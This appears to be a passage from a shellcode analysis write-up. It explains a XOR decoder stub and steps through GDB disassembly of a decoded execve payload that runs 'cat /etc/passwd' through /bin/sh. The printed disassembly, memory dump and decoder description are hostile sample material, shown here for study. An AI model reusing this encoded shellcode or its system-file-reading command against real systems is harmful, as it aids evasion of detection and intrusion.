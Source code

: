 This is the meat of the decoder. Now that the decoder has a pointer to the top of the shellcode, everything else is done in offsets. 

First the value in EDX is XORed with the first byte of the encoded payload. Then the pointer to the start of the shellcode is moved down four bytes. Next the decoder adds to EDX the the integer value of the last four decoded bytes. Then the decoder loops back to the initial XOR. 

Let's look at the decoded exec payload. I'll pull this from GDB. 

```
(gdb) disassemble
[...]
=> 0x5655703b <+27>:    push   0xb
   0x5655703d <+29>:    pop    eax
   0x5655703e <+30>:    cdq    
   0x5655703f <+31>:    push   edx
   0x56557040 <+32>:    pushw  0x632d
   0x56557044 <+36>:    mov    edi,esp
   0x56557046 <+38>:    push   0x68732f
   0x5655704b <+43>:    push   0x6e69622f
   0x56557050 <+48>:    mov    ebx,esp
   0x56557052 <+50>:    push   edx
   0x56557053 <+51>:    call   0x56557068 <shellcode+72>
   0x56557058 <+56>:    arpl   WORD PTR [ecx+0x74],sp
   0x5655705b <+59>:    and    BYTE PTR [edi],ch
   0x5655705d <+61>:    gs je  0x565570c3
   0x56557060 <+64>:    das    
   0x56557061 <+65>:    jo     0x565570c4
   0x56557063 <+67>:    jae    0x565570d8
   0x56557065 <+69>:    ja     0x565570cb
   0x56557067 <+71>:    add    BYTE PTR [edi+0x53],dl
   0x5655706a <+74>:    mov    ecx,esp
   0x5655706c <+76>:    int    0x80
   0x5655706e <+78>:    add    BYTE PTR [eax],al
```

This uses one or two interesting tricks as well. A PUSH POP gets the syscall id for `execve(2)` into EAX, and a CDQ zeroes EDX. CDQ takes whatever is in bit31 of EAX and extends it into every bit of EDX. So if bit 31 is 1, EDX is 0xFFFFFFFF, if bit 31 is 0, then EDX is 0x00000000. 

Moving on, a null is pushed to the stack, the string '-c' is pushed and a pointer to it is saved in EDI. Then `/bin/sh/` is pushed to the stack in reverse order and a pointer to this is copied into EBX. Another null is PUSHed and a call is made further down the shellcode. Everything after this call up to byte 45 of this decoded shellcode is the string `cat /etc/passwd\x00`. The CALL instruction pushes the address to this data to the stack and jumps over it. We can see this block of data in GBD. 

```
(gdb) x /16c 0x56557058
0x56557058 <shellcode+56>:  99 'c'  97 'a'  116 't' 32 ' '  47 '/'  101 'e' 116 't' 99 'c'
0x56557060 <shellcode+64>:  47 '/'  112 'p' 97 'a'  115 's' 115 's' 119 'w' 100 'd' 0 '\000'
```

The instructions in GDB's disassembly are broken because the offset to which CALL jumps is misaligned. If we analyze the true location where execution will be passed, we can see the instructions that will be executed. 

